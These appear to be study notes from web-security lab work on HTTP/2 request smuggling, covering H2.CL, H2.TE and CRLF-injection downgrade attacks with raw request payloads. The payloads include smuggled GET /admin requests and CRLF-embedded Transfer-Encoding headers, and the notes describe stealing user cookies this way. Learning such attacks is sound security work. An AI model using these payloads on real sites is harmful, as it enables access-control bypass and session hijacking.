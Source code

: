 If backend uses Content-Length to verify request, we disable "update content length" option in burp and simply appen additional request:
```
POST / HTTP/2
Host: 0a42003e03d51d61c02d0feb00e80099.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404pls HTTP/1.1
Host: 0a42003e03d51d61c02d0feb00e80099.web-security-academy.net
Content-Length: 25

smuggled=yes
```

## H2.TE vulnerabilities
Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any transfer-encoding: chunked header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.  
```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```
## Request smuggling via CRLF injection
Even if websites take steps to prevent basic H2.CL or H2.TE attacks, such as validating the content-length or stripping any transfer-encoding headers, HTTP/2's binary format enables some novel ways to bypass these kinds of front-end measures.  
In HTTP/1, you can sometimes exploit discrepancies between how servers handle standalone newline (\n) characters to smuggle prohibited headers. If the back-end treats this as a delimiter, but the front-end server does not, some front-end servers will fail to detect the second header at all.  
```
Foo: bar\nTransfer-Encoding: chunked
```
This discrepancy doesn't exist with the handling of a full CRLF (\r\n) sequence because all HTTP/1 servers agree that this terminates the header.  
On the other hand, as HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that \r\n no longer has any special significance within a header value and, therefore, can be included inside the value itself without causing the header to be split: 
```
foo: bar\r\nTransfer-Encoding: chunked
```
This header must be added manually via Inspector
This may seem relatively harmless on its own, but when this is rewritten as an HTTP/1 request, the \r\n will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers: 
```
Foo: bar
Transfer-Encoding: chunked
```
If we detect any functionality which receives and returns text (rtecently searched items, comments etc.) we can use CRLF injection in combination with big Content-Length in order to steal user's cookies  
```
POST / HTTP/2
```